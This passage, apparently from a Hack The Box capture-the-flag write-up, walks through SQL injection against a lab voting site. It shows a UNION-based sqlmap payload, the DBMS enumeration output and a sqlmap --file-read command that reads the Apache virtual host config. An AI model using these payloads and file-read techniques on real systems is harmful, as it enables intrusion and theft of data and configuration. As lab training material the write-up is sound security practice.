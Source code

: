 ```bash
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[23:38:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:38:01] [INFO] fetching columns for table 'users' in database 'vote'
[23:38:03] [WARNING] the SQL query provided does not return any output
[23:38:03] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[23:38:03] [WARNING] unable to retrieve column names for table 'users' in database 'vote'
do you want to use common column existence check? [y/N/q] N
[23:38:03] [WARNING] unable to enumerate the columns for table 'users' in database 'vote'
[23:38:03] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[23:38:03] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 23:38:03 /2025-08-13/
```

Somehow we can not dump the `users` table which we can get some credentials to initial access. <br>
Let's check out the apache virtual host config, for more details check out [Apache Virtual Hosts](https://httpd.apache.org/docs/2.4/vhosts/examples.html).

```bash
└─$ sqlmap -r req --batch --file-read /etc/apache2/sites-available/000-default.conf
        ___
       __H__                                                                                                                                                                                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:15:43 /2025-08-13/

[10:15:43] [INFO] parsing HTTP request from 'req'
[10:15:43] [INFO] resuming back-end DBMS 'mysql' 
[10:15:43] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=48'. Do you want to follow? [Y/n] Y
```